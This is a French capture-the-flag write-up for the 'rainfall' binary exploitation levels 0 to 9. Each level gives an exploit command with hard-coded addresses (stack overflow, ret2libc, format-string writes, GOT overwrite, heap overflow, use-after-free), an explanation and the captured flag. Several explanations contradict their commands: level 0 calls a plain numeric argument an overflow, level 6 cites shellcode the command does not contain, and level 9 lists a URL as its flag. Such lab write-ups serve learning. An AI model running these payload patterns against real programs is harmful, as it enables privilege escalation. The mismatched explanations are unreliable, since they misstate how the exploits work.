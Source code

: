 # rainfall
## Level 0

**Exploit**: Buffer Overflow simple  
**Commande**: `./level0 423`  
**Explication**: Dans ce cas, l'exploit consiste à profiter d'une vulnérabilité de débordement de tampon. En passant l'argument 423 au programme level0, nous dépassons la taille du tampon prévu, ce qui nous permet d'écraser des données adjacentes en mémoire, y compris l'adresse du pointeur de retour. Cela nous permet de contrôler le flux d'exécution et d'obtenir le contenu du fichier .pass de l'utilisateur level1.
**Flag**: 1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a

**Sources**:
- Aucune

---

## Level 1

**Exploit**: Buffer Overflow avec redirection de flux d'exécution  
**Commande**: `python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/exploit2; cat /tmp/exploit - | ./level1`  
**Explication**: Dans cet exploit, nous avons dépassé la taille du tampon prévu en imprimant 76 caractères "a", suivis de l'adresse 0x08 04 84 44, qui est l'adresse de la fonction run. Cette adresse sera utilisée comme nouvelle adresse de retour, ce qui nous permettra de rediriger l'exécution vers la fonction run.
**Flag**: 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

**Sources**:

- https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/
- https://unix.stackexchange.com/questions/203012/why-cant-i-open-a-shell-from-a-pipelined-process
- https://stackoverflow.com/questions/44469372/exploiting-buffer-overflow-using-gets-in-a-simple-c-program
- https://www.kali-linux.fr/hacking/overflows-passons-a-la-pratique

---

## Level 2

**Exploit**: Return-to-libc (ret2libc)  
**Commande**: `python -c 'print "a" * 80 + "\x3e\x85\x04\x08"  + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"' > /tmp/exploit3`  
**Explication**: Dans cet exploit, nous utilisons la technique ret2libc pour contourner les protections de sécurité. Nous utilisons les adresses des fonctions system, exit et /bin/sh de la bibliothèque libc pour exécuter une coquille système avec les privilèges de l'utilisateur.
**Flag** : 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

**Sources**:

- https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc
- https://infosecwriteups.com/expdev-exploit-exercise-protostar-stack-6-ef75472ec7c6
- http://wikisecu.fr/doku.php?id=appsysteme:ret2libc

---

## Level 3

**Exploit**: Attaque de chaîne de format  
**Commande**: `python -c 'print "\x8c\x98\x04\x08" + "%60c" + "%4$n"' > /tmp/exploit4; cat /tmp/exploit4 - | ./level3`  
**Explication**: L'exploit ici repose sur une vulnérabilité de chaîne de format. Nous utilisons la spécification %4$n pour écrire le nombre de caractères déjà imprimés dans la pile à l'adresse mémoire pointée par le quatrième argument sur la pile (qui est l'adresse de retour). Cela nous permet de contrôler le flux d'exécution.
**Flag** : b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa

**Sources**:

- https://repo.zenk-security.com/Techniques%20d.attaques%20%20.%20%20Failles/Les%20failles%20Format%20String.pdf
- https://axcheron.github.io/exploit-101-format-strings/
- https://owasp.org/www-community/attacks/Format_string_attack

---

## Level 4

**Exploit**: Format String avec écriture arbitraire  
**Commande**: `python -c 'print "\x10\x98\x04\x08" + "%16930112c" + "%12$n"' > /tmp/exploit4`  
**Explication**: Dans cet exploit, nous utilisons la vulnérabilité de chaîne de format pour écrire une valeur arbitraire dans la mémoire. Nous écrasons l'adresse de retour avec l'adresse de la fonction info pour afficher le contenu de la mémoire.
**Flag** : 0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a

**Sources**:

- https://repo.zenk-security.com/Techniques%20d.attaques%20%20.%20%20Failles/Les%20failles%20Format%20String.pdf
- https://axcheron.github.io/exploit-101-format-strings/
- https://owasp.org/www-community/attacks/Format_string_attack

## Level 5

**Exploit**: GOT Overwrite
**Etapes**: 
- info function : obtenir les adresses des fonctions 
-  objdump -R level5 ===> adresses functions libc
-  objdump -t level5 | grep o ==> adresse fonctions "o"
- o : 080484a4 
- exit : 08049838
**Commande**: `python -c 'print "\x38\x98\x04\x08" + "%134513824c" + "%4$n"' > /tmp/exploit5`  
**Explication**: Dans cet exploit, nous écrasons une entrée dans la table GOT pour rediriger l'exécution vers notre propre code. Nous écrasons l'adresse de la fonction o dans la table GOT avec l'adresse de la fonction system.
**Flag** : d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31

**Sources**:
- Aucune
---

## Level 6

**Exploit**: Buffer Overflow avec shellcode  
**Commande**: `$(python -c 'print "a" * 72 + "\x54\x84\x04\x08"')`  
**Explication**: Ici, nous exploitons une vulnérabilité de débordement de tampon pour écraser l'adresse de retour avec l'adresse de la fonction m(). Ensuite, nous exécutons un shellcode pour obtenir un shell interactif.
**Flag** : f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d

**Sources**:
- Aucune
---

## Level 7

**Exploit**: Heap Overflow  
**Commande**: `"$(python -c "print 'AAAABBBBCCCCDDDDEEEE\x28\x99\x04\x08'")" $(python -c "print '\xf4\x84\x04\x08'")`  
**Explication**: Dans cet exploit, nous exploitons une vulnérabilité de débordement du tas. Nous écrasons les métadonnées du tas pour rediriger l'exécution vers la fonction m(). Cela nous permet d'exécuter du code arbitraire.
**Flag** : 5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9

**Sources**:

- https://security.stackexchange.com/questions/258891/heap-overflow-strcpy-on-x86-64-64bit
- https://www.youtube.com/watch?v=TfJrU95q1J4

---

## Level 8

**Exploit**: Use-After-Free  
**Commande**: `auth a; reset; service; service; service; login`  
**Explication**: Dans cet exploit, nous exploitons une vulnérabilité Use-After-Free. Nous libérons un objet, puis nous l'utilisons à nouveau pour exécuter un shell interactif. Cela se produit car l'objet libéré n'est pas correctement désalloué.
**Flag** : c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a

**Sources**:

- https://beta.hackndo.com/use-after-free/
- https://www.youtube.com/watch?v=ZHghwsTRyzQ

---

## Level 9

**Exploit**: Buffer Overflow avec shellcode  
**Commande**: `$(python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWWXXXXYYYYZZZZAAA' + '\x60\x60\xd8\xb7' + '\xe0\x9b\xd7\xb7' + '\xf4\x84\x04\x08' + '\x58\x7c\xea\xb7' ")`  
**Explication**: Comme dans les exploits précédents, nous exploitons une vulnérabilité de débordement de tampon pour écraser l'adresse de retour et exécuter un shell interactif.
**Flag** : https://shell-storm.org/shellcode/files/shellcode-827.html

**Sources**:

- https://shell-storm.org/shellcode/files/shellcode-827.html

---

Ce write-up a été préparé avec soin par [HarounKr].

**Disclaimer**: Ces exploits ont été conçus à des fins éducatives et d'apprentissage. Ne les utilisez pas à des fins malveillantes.
